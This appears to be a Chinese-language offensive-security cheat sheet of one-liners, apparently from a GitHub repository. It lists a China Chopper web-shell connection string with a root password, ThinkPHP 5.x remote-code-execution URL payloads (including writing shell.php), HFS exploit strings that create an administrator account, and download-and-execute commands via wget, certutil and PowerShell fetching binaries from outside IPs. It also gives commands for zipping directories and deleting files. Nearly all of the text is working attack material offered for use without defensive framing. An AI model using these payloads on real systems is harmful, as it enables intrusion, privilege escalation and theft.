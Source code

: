 菜刀添加数据库连接:

    <T>MYSQL</T><H>localhost</H><U>root</U><P>Unser251#</P><L>utf8</L>

certutil 下载:

    certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt file.txt

linux shell 下载执行：

    wget  http://100.100.100.0/aelf -O /tmp/a && chmod +x /tmp/a && setsid /tmp/a

thinkphp5 测漏洞:

    https://www.waitalone.cn/thinkphp-getshell.html
    
    /?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
    /?s=index/\think\Request/input&filter=phpinfo&data=-1
    
    5.0.x版本

    s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1                                             s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

    5.1.x版本

    s=index/\think\Request/input&filter=phpinfo&data=1 s=index/\think\Request/input&filter=system&data=id                                   s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E                                           s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E                                                                 s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1                                       s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

hfs 命令执行漏洞:

    ?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.}    
    ?search==%00{.exec|cmd.exe /c net localgroup administrators test1234 /add.}

发包模拟tcp:

    iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP

powershell常用：

    打包:
    powershell -Command "Compress-Archive -LiteralPath D:\mt4mate\upfile\115   -DestinationPath  D:\mt4mate\upfile\115\a.zip"

    powershell -command "Add-Type -Assembly 'System.IO.Compression.FileSystem' ; [System.IO.Compression.ZipFile]::CreateFromDirectory('d:\1\upfile\115\images', 'd:\1\upfile\1.zip') ;"
    
    下载：
    powershell -Command "Invoke-WebRequest -Uri http://41.11.1.1/a.exe -OutFile     a.exe"

    删除文件：
    powershell -Command "Remove-Item a.exe -Force"

    执行默认功能：
    powershell -Command "Invoke-Item D:\mt4mate\upfile\115\a.exe"
